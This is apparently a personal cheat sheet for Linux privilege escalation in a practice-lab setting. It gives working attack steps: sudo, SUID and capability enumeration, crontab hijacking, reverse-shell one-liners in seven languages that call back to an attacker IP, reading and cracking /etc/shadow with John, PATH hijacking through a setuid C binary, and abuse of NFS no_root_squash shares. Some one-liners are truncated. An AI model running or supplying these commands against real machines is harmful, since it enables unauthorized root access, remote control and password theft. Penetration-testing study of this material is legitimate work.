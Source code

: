 If you have local access to the machine first you want to find a way to get root.
First check what programs you can run as sudo so run:
	sudo -l
This is list all the programs that you can run as root and might give you a path to escalate your
privileges. Check at this wedsite to see if any of the progams are listed for sudo:
	https://gtfobins.github.io/gtfobins/nmap/
Next we will check to see if any programs allow SUID or SGID bits set.
	find / -type f -perm -04000 -ls 2>/dev/null
These will likely let you read the contents of a file that you normally would not normally be able to.
For example the contents of /etc/shadow, this may allow you to crack a password and get root access.
The next thing we will check is capabilities using this command:
	getcap -r / 2>/dev/null
This will redirect any errors using the standard 2>/dev/null, if any capabilities are found check gtfo 
for a path.

Next we will look for any crontab jobs that we might be able to hijack:
	cat /etc/contab
If there is an existing crobtab job we can change the code to start a reverse shell.
Make sure the file is still executable after using:
	chmod +x <filename>

	Bash:
	bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
	
	PERL:
	perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in

	
	python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234))

	PHP:
	php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
	
	Ruby:
	ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'

	Netcat:
	nc -e /bin/sh 10.0.0.1 1234

	Java:
	r = Runtime.getRuntime()
	p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
	p.waitFor()

Make sure you change the IP address and Port and start a listening port on your attck machine.
For even more reverse shells check out this site:
	https://www.revshells.com/

Once you have a root shell you can read the contents of /etc/shadow, this will allow you to try
and crack the hashes.

Copy the full shadow file or just the users you wish to crack then run this John command:

	john --wordlist=/usr/share/wordlist/rockyou.txt --format=sha512crypt shadowfile.txt

Check your path variables with:
	echo $PATH
	find / -writable 2>/dev/null
	find / -writable 2>/dev/null | cut -d "/" -f 2,3 | grep -v proc | sort -u
The second and third commands will show what folders your user has write access to.
If have have writeable access to the path you can add additionl paths:
	export PATH=/tmp:$PATH
For example this will add the /tmp folder to path.  Then cd into tmp and crate a file thm.
	cd /tmp
	echo "/bin/bash" > thm
	chmod 777 thm
	
Then create a c file that calls the thm binary which will elevate your privledges to root.

	#include<unistd.h>
	void main()
	{ setuid(0);
	  setgid(0);
	  system("thm");
	}

Once the file is saved for example as file_exp.c complile it then run it.
	gcc file_exp.c -o file -w
	chmod u+s file
	./file

Next we will check for shares that we can mount.  One the target system run:
	cat /etc/exports
If any shares have no_root_squash then if they are mounted on another system you will not 
lose root.

On the attack system run:
	showmount -e <target IP>
Create a tmp directory and then mount a share that has no_root_squash and your user account has executable rights.

	mkdir /tmp/backup
	mount -o rw <target IP>:/<share> /tmp/backup
	cd /tmp/backup
	nano nfc.c

	int main()
	{ setgid(0);
	  setuid(0);
	  system("/bin/bash");
	  return 0;
	}

Once you save the nfs.c complile it with gcc.
	gcc nfs-c -o nfs -w
	chmod +s nfs
Switch back to the attack machine and you should see both files run the compliled file.
	./nfs





	

